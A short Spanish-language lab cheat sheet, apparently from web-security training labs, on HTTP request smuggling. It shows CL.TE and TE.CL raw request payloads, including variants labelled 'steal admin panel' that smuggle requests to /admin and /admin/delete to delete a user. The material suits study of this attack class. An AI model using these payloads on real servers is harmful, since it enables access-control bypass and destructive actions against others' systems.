 ### LAB: Basic CL->TE
* Que el backend server procese un GPOST method.  
* Cambiar a HTTP/1 SIEMPRE
* Cambiar a HTTP/1 SIEMPRE - Cambiar a POST / HTTP/1.1
* desactivar content-length automatico
```js
//A la peticion añadirle lo siguiente: 
//Cambiar a HTTP/1 SIEMPRE - Cambiar a POST / HTTP/1.1
Content-Length: 6
Transfer-Encoding: chunked

0

G
```


### LAB: Basic TE->CL
* Que el backend server procese un GPOST method.  
* Cambiar a HTTP/1.1 SIEMPRE
* Cambiar a HTTP/1 SIEMPRE - Cambiar a POST / HTTP/1.1
* desactivar content-length automatico
```js
//en la request añadir. 
Content-length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

\r\n\r\n

-------ROBAR PANEL ADMIN---------

Content-length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
GET /admin HTTP/1.1
Host: target.com

--------ROBAR PANEL ADMIN---------

Content-length: 4
Transfer-Encoding: chunked

84
POST /admin/delete HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

username=carlos
0(\r\n\r\n)
```